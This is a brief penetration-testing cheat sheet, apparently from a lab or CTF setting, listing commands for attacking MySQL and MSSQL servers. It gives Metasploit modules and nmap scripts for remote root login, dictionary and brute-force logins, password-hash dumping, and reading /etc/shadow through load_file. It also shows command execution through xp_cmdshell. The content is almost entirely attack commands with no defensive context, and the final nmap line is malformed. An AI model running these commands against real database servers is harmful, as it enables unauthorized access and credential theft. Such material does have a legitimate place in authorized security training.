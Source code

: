 **MYSQL**

Logging into Mysql on remote host

```mysql -h (IP address) -u root```

Using database

```show databases ---then type semicolon```

```use (database name);```

```select count(*) from authors;```

```select * from authors```

Finding Writable directories

Metasploit -- scanner/mysql/mysql_writable_dirs

Finding hashes

```use auxiliary/scanner/mysql/mysql_hashdump```

Getting the full etc/shadow file

```select load_file("/etc/shadow");```

Dictionary attack against Mysql

Use Metasploit -- auxiliary/scanner/mysql/mysql_login

Password File -- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

**MSSQL**

Nmap scripts

```nmap (ip address) -p (port number) --script ms-sql-info```

```nmap (ip address) -p (port number) --script ms-sql-ntlm-info --script-args mssql.instance-port=1433```

```nmap (ip address) -p (port number) --script ms-sql-brute --script-args userdb=/root/Dessktop/wordlist/common_users.txt,passdb=/root/Dekstop/wordlist/100-common-passwords.txt```

```nmap (ip address) -p (port number) --script ms-empty-password```

```nmap (ip address) -p (port number) --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt```

```nmap (ip address) -p (port number) --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria```

```nmap (ip address) -p (port number) --script ms-sql-xp-cmdshell.cmd="type c:\flag.txt ```
